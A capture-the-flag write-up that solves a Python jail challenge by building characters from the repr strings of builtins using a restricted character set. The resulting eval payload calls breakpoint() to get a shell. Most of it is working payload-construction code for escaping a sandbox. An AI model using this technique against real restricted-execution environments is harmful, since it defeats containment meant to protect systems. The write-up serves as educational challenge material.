



## Python FXXK



In this Pyjail, we are given a limited charset to craft payloads.  



This limits the builtins we can use to only `all()`, `eval()` and `repr()`.  

The shortest and most verbose payload we can craft would be `breakpoint()`, however, we need to find a way of representing it using only the provided characters.  

The basic building block of our payload would be digits, and we can thankfully craft `0` and `1` using the allowed builtins.  

```python
+all([[]]) # 0
all([])    # 1
```

Crafting larger numbers isn't an issue, as we can simply chain our digit representations.  

```python
def digit(n):
    if n == 0:
        return "+all([[]])"
    return '+'.join(['all([])'] * n)
```

Now that we can represent arbitrary numbers, representing characters isn't that complicated either, as we can simply grab characters from the string representations of builtins.  

```python
f'repr(eval)[{digit(21)}]' # a
```

However, this could pose a challenge when we require characters that aren't in the string representations of the provided builtins.  

The next step wouild be to gain access to the `chr()` function, allowing us to address this issue.  

```python
f = f'repr(eval)[{digit(10)}]'
l = f'repr(all)[{digit(4)}]'
o = f'repr(repr)[{digit(16)}]'
a = f'repr(eval)[{digit(21)}]'
t = f'repr(repr)[{digit(5)}]'

# repr(float(1))[1]
dot = f'repr(eval({f}+{l}+{o}+{a}+{t})({digit(1)}))[{digit(1)}]' 

u = f'repr(repr)[{digit(2)}]'
n = f'repr(repr)[{digit(8)}]'

c = f'repr(repr)[{digit(13)}]'

# repr([].count)[13]
h = f"repr(eval(repr([])+{dot}+{c}+{o}+{u}+{n}+{t}))[{digit(13)}]"

r = f'repr(repr)[{digit(19)}]'
```

Now that we are able to craft arbitrary characters, we are finally able to build the full payload. 

```python
b = f'repr(repr)[{digit(1)}]'
r = r
e = f'repr(eval)[{digit(19)}]'
a = a
k = f'eval({c}+{h}+{r})({digit(107)})'
p = f'repr(repr)[{digit(21)}]'
o = o
i = f'repr(repr)[{digit(3)}]'
n = n
t = t
lb = f'repr(())[{digit(0)}]'
rb = f'repr(())[{digit(1)}]'

payload = '+'.join([b, r, e, a, k, p, o, i, n, t, lb, rb])
payload = f'eval({payload})'
```

Submitting the payload then gives us a shell where we can retrieve the flag.  



